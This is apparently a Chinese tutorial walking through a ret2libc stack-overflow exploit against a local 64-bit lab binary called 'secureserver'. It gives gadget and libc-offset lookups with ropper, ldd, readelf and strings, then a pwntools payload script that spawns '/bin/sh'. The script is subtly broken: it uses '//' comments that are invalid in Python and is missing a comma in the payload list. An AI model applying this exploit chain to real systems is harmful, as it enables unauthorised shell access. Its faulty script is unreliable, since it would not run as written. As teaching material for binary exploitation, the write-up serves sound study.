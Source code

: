 关于64位程序，可以去看我之前的这篇文章
```
https://blog.csdn.net/qq_45894840/article/details/126814308?spm=1001.2014.3001.5502
```
现在我们需要找到rdi寄存器来传递参数

```
ropper --file secureserver --search "pop rdi"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a88974399f2b43478abbfa5b89f27588.png)

我们可以把/bin/sh字符串放入rdi寄存器中，之后程序查询参数是会在rdi寄存器中查询
```
32位程序会在堆栈中查找，就不需要传递参数
而64位会在这些寄存器中查找参数
```


由于之前关闭过libc防护，现在可以直接查找程序libc库地址
```
ldd secureserver
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e633d2bd961842e49a38fe8603380955.png)

查找system地址和/bin/sh字符串
```
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9a51e1e713a94b40b8e7eed787ff8bff.png)

偏移地址都找到了，现在可以开始写脚本了


## pwntools脚本
这里libc的地址和system函数什么的都已经在上面找过了，我们只需要添加几行代码即可
```
from pwn import *   //导入pwntools模块

exe = './secureserver'   //要破解的文件名
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序详细信息，如架构，操作系统
io = process('./secureserver')   //启动程序
padding = 72   //覆盖eip原本的返回地址

libc = 0x00007ffff7c00000   //libc的地址
system = libc + 0x4a4e0   //system函数在libc里的偏移地址
bin_sh = libc + 0x1b1117   ///bin/sh字符串在libc里的偏移地址

pop_rdi = 0x40120b   //pop rdi指令的地址

payload = flat(
    asm('nop') * padding,   //覆盖eip原本的返回地址
    pop_rdi,   //先存入字符串，之后system函数执行时会在rdi寄存器中寻找参数
    bin_sh  ///bin/sh字符串地址
    system,   //调用system函数地址
    
)   //构造paylaod
io.sendlineafter(b':',payload)  //发送payload
io.interactive()  //获得交互
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/f05044fdac8d4e18b62aea766a2ab02a.png)

成功破解程序

